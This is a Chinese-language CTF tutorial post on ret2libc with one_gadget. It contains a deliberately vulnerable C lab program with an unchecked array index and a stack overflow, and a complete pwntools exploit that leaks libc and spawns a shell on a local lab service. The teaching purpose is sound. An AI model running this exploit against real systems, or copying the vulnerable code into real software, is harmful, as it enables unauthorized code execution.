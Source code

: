 ```yaml
---
title: "Day14－Other ret2libc(one gadgets)"
date: 2024-09-14
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)


## 前言

昨天的內容利用了 `libc` 進行攻擊，不過實際上我們使用的 gadgets 長度既不算長也不算短。而且在之前的題目中，我們常常隨意填充 `rbp`，那麼 `rbp` 真的沒有用嗎？事實上，它是有作用的。像是 [one gadget](https://github.com/david942j/one_gadget) 這個工具，就會使用到 `rbp`，而且它能使 gadgets 的長度最短，因為它只需要控制 `rbp` 和 8 個 byte 的 return address 即可。

## [One Gadget](https://github.com/david942j/one_gadget)

在函式庫中，有些函式會呼叫 `execve('/bin/sh', argv, envp)`，簡單來說就是可以拿來開啟 shell。像是 `system(cmd)` 可能會執行 `fork() + execve('/bin/sh', ["sh","-c",cmd], environ)`。因此，如果跳到 `system` 的某個中段，最終可能會執行 `execve('/bin/sh', argv, environ)`。

不過，雖然這樣說，直接跳過去不一定會成功，但通常有很多個 one gadget，所以多試幾個總會有成功的可能。如果你想進一步了解工具的運作方式，或者想手動尋找 one gadget，建議參考 david942j 在 HITCON CMT 2017 的議程 [david942j - 一發入魂 One Gadget RCE](https://youtu.be/L9maBmiJGAc?si=1eEG5bjKVoFp37gv)。

## 使用

使用以下指令安裝 one gadget 工具：

```bash
gem install one_gadget
```
安裝完成後，只需要針對 libc 找出可用的 one gadget，指令如下：

```bash
one_gadget <libc file>
```

![image](/images/iron2024/day14_image1.png)

可以看到工具會列出各個 gadget 的限制條件，因此需要滿足這些條件，像是 `rbp` 的值或其他 register 的位置。通常我不會過於在意這些限制條件，只要 `rbp` 符合條件即可，比如符合 `rbp-0x78`、`rbp-0x48` 或 `rbp-0x50` 是可寫的。

我的習慣是使用 `gdb` 將程式運行起來，然後通過 `vmmap` 查看哪些區域是可寫的。找到沒有寫入資料的區段後，將 `rbp` 設置為那個區段的位址。接著，如果失敗，就換另一個 gadget 繼續測試。

## Lab

查看以下原始碼：

```c
#include<stdio.h>
#include<stdlib.h>

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    long long num[10] = {0};
    while(1){
        puts("1. Edit number");
        puts("2. Show number");
        puts("3. Exit");
        printf(">> ");
        int choice;
        scanf("%d", &choice);
        switch(choice){
            case 1:
                printf("Index: ");
                int idx;
                scanf("%d", &idx);
                printf("Number: ");
                scanf("%lld", &num[idx]);
                break;
            case 2:
                printf("Index: ");
                int idx2;
                scanf("%d", &idx2);
                printf("Number: %lld\n", num[idx2]);
                break;
            case 3:
                break;
            default:
                puts("Invalid choice");
                break;
        }
        if(choice == 3){
            break;
        }
    }
    char message[0x20];
    printf("Leave a message: ");
    read(0, message, 0x80);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/ret2libc_adv.c -o ./ret2libc_adv/share/ret2libc_adv -fno-stack-protector
```

## writeup

相比昨天的 Lab，這次的 `read` 可以 overflow 的部分變小了，但其餘部分相同，仍然可以通過越界讀取來 leak `libc base`。查看反組譯碼會發現能 overflow 的位置只有到 `rbp` 和 return address，因此非常適合使用 one gadget。

![image](/images/iron2024/day14_image2.png)

使用 one gadget 找到的 gadget 如下：

![image](/images/iron2024/day14_image3.png)

接下來，我們寫一個簡單的 script 來確認條件，看看能使用哪個 gadget。在測試之前，記得依照昨天的方式換 `libc`，指令如下：

```bash
patchelf --replace-needed libc.so.6 ./libc.so.6 --set-interpreter ./ld-linux-x86-64.so.2 ./ret2libc_adv
```

然後寫測試的 script 並掛上 `gdb`：

```python
from pwn import *

r = process('./ret2libc_adv')
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
number = int(r.recvline().strip().split(b': ')[1])
libc_base = number - 0x29d90
log.info(f'Libc: {hex(libc_base)}')
payload = b'A' * 0x70
r.sendlineafter('>> ', '3')
r.sendlineafter('Leave a message: ', payload)

r.interactive()
```

執行後，在 return address 觀察 `register` 的狀態以及應該填充的 `rbp` 值：

![image](/images/iron2024/day14_image4.png)

既然我們已經有了 `libc base address`，就可以查看 `libc` 的可寫段：

![image](/images/iron2024/day14_image5.png)

我通常習慣從最尾端找起，使用指令 `x/30gx 0x7f83a8e81000-0x78`，發現大多區域都是可寫的。

![image](/images/iron2024/day14_image6.png)

回到剛才找到的 one gadget，最後一個 gadget 的 offset 是 `0xebd43`，看起來條件符合。我們將 `rbp` 填入之前找到的可寫區段（記得加上 offset 和 `libc address`）。

![image](/images/iron2024/day14_image7.png)

完整 exploit：

```python
from pwn import *

# r = process('./ret2libc_adv')
r = remote('127.0.0.1', 10006)
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
number = int(r.recvline().strip().split(b': ')[1])
libc_base = number - 0x29d90
log.info(f'Libc: {hex(libc_base)}')
rbp = libc_base + 0x21c000
one_gadget = libc_base + 0xebd43
payload = b'A' * 0x70 + p64(rbp) + p64(one_gadget)
r.sendlineafter('>> ', '3')
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

solved！！

![image](/images/iron2024/day14_image8.png)